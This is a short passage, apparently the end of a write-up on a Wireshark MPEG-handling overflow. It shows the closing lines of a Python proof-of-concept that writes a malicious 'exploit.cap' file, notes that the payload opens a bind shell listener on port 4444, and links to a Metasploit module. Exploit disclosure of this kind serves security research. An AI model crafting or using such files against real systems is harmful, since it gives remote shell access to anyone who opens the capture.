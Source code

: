 f = open('exploit.cap', 'w')
f.write(header + filestruct)

print 'Done .. evil file written'
{% endhighlight %}

**Please note: the proof of concept files are starting a bind_tcp shell listener on port 4444.**

J0sm1 developed a Metasploit module in order to exploit the vulnerability easily using metasploit:

[http://www.rapid7.com/db/modules/exploit/windows/fileformat/wireshark\_mpeg\_overflow](http://www.rapid7.com/db/modules/exploit/windows/fileformat/wireshark_mpeg_overflow)
